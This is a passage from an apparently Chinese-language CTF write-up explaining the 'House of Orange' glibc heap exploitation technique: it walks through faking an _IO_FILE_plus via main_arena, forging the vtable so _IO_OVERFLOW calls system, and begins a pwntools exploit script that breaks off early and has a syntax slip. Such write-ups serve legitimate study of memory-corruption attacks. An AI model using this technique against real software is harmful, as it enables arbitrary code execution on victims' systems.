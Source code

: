    ```c
     /* Bitmap of bins */
     unsigned int binmap[BINMAPSIZE];
   
     /* Linked list */
     struct malloc_state *next;
   
     /* Linked list for free arenas.  Access to this field is serialized
        by free_list_lock in arena.c.  */
     struct malloc_state *next_free;
   
     /* Number of threads attached to this arena.  0 if the arena is on
        the free list.  Access to this field is serialized by
        free_list_lock in arena.c.  */
     INTERNAL_SIZE_T attached_threads;
   
     /* Memory allocated from the system in this arena.  */
     INTERNAL_SIZE_T system_mem;
     INTERNAL_SIZE_T max_system_mem;
   };
   ```

   

3. glibc将`main_arena+88`当成了一个`IO_FILE_plus`结构体，发现一些if不满足，通过`struct _IO_FILE *_chain`寻找下一下`IO_FILE_plus`文件流

4. `struct _IO_FILE *_chain`在`_IO_FILE_plus`结构体偏移`0x68`处，而 `main_arena+88` (unsorted bin头的地址) 偏移0x68处正好是存储0x60 freechunk的smallbin的bk，而里面的内容时可以控制的

   ```c
   +0x00 [       top        |  last_remainder   ]
   +0x10 [ unsorted bin fd  |  unsorted bin bk  ]
   +0x20 [ smallbin 0x20 fd | smallbin 0x20 bk  ]
   +0x30 [ smallbin 0x30 fd | smallbin 0x30 bk  ]
   +0x40 [ smallbin 0x40 fd | smallbin 0x40 bk  ]
   +0x50 [ smallbin 0x50 fd | smallbin 0x50 bk  ]
   +0x60 [ smallbin 0x60 fd | smallbin 0x60 bk  ]
   ```

5. 我们可以将原来是topchunk，被glibc释放掉变成unsortedbin chunk的chunksize改为0x61，通过标题0x01可知，该chunk会被加入到smallbins中，该smallbin的fd，bk都会变成该chunk的地址。当前 `_IO_list_all`指向的内容不满足执行_IO_OVERFLOW，进而通过`fp->_chain`寻找下一个`_IO_FILE`时，就会根据smallbin的bk寻找到0x60`smallbin`中的chunk。

6. 之后回调用虚表函数，我们将vtable指针修改为伪造的`_IO_FILE_plus`chunk的后面的堆内存，将`_IO_OVERFLOW`修改为system，即成功劫持的控制流

## 0x06 EXP

```python
#/usr/bin/env python
from pwn import *
p = process('./houseoforange')
elf = ELF('./houseoforange')
libc = ELF('./libc')
DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = 'debug')

def gdb(a=''):
	gdb.attach(p)
  if a != ''
		raw_input(a)

def build(length,name):
```